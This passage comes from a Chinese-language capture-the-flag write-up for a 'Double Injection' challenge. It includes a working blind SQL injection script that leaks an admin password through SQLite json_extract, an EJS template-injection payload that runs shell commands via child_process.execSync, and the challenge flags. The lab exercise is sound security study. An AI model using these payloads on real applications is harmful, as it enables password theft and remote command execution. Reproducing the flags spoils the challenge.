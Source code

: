若登入成功，則 `r.text = "<h1>Success!</h1>"`；
若登入失敗，則 `r.text = "Unauthorized"`。

那麼利用以下函式去二分搜每個位置的 ASCII 碼，就能 leak 出 admin 的密碼：

```python=
def find_password():
    password = ""
    for i in range(1, 64):
        lo = 0
        hi = 128
        while lo < hi:
            mid = (lo + hi) // 2
            username = f"\") AS _, 'true' AS password FROM db WHERE unicode(substr( json_extract(users, '$.admin.password'), {i} )) < {mid} UNION SELECT 'pad' AS _, 'false' AS password FROM db  --"
            result = login(username, "true")
            if "Success" in result:
                hi = mid
            else:
                lo = mid + 1
        if lo == 128:
            break
        password += chr(lo - 1)
    return password
```

以下為取得 flag 的畫面：

![image](https://hackmd.io/_uploads/B15NpUuP6.png)

## Double Injection - FLAG2

Flag：`FLAG{ezzzzz_sqli2ssti}`

注意到如果使用 `FLAG1` 做為密碼，頁面就會把 `username` inject 進 template 進行 render。

這題相對簡單很多，只需要了解 `ejs` 怎麼做 template injection。

只需在 `username` 中，放入以下字串，就能將 `command` 的執行結果顯示在頁面上。

```javascript!
<%= global.process.mainModule.require('child_process').execSync('{command}').toString() %>
```

我做了以下函式來簡單的將 `command` 和 `password` inject 其中。

```python=
password = "FLAG{sqlite_js0n_inject!on}"

def run_command(command):
    username = f"\") AS _, '{password}' AS password FROM db -- <%= global.process.mainModule.require('child_process').execSync('{command}').toString() %>"
    return login(username, password)
```

執行 `ls /`：
